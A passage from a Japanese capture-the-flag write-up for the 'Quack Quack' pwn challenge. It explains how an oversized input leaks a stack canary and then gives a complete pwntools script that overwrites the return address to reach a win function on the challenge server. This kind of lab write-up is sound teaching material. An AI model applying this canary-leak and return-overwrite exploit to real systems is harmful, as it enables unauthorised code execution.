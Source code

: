 `Quack Quack `の文字を判断してますね。試してみると次の入力が来ます。

![70](/images/cyber-apocalypse-ctf-2025/pwn/70.png)

ここで`rip`を`canary`バイパスしながら`duck_attack`関数に向けてやります。
`pcVar1 + 0x20`の部分を表示しているので`b'A'*89+b'Quack Quack \n'`のような入力を与えてやると`canary`が出てきます。

![71](/images/cyber-apocalypse-ctf-2025/pwn/71.png)

これで`canary`をリークして`duck_attack`に飛ばします。

```python
from pwn import *

context.log_level = "debug"
binfile = './quack_quack_patched'
rhost = '94.237.61.48'
rport = 50082

elf = ELF(binfile)
context.binary = elf

def conn():
    if args.REMOTE:
        p = remote(rhost, rport)
    else:
        p = process(elf.path)
    return p

payload = b'A'*89+b'Quack Quack '

p = conn()
p.sendlineafter(b'> ', payload)

p.recvuntil(b'Quack Quack ')
leak = b'\x00' + p.recvline()[:7]
print("canary: ", leak)

win = 0x000000000040137f
ret = 0x000000000040101a

payload = b'A'*0x58
payload += leak
payload += b'\x00'*8
payload += pack(win) 

p.sendafter(b'> ', payload)
```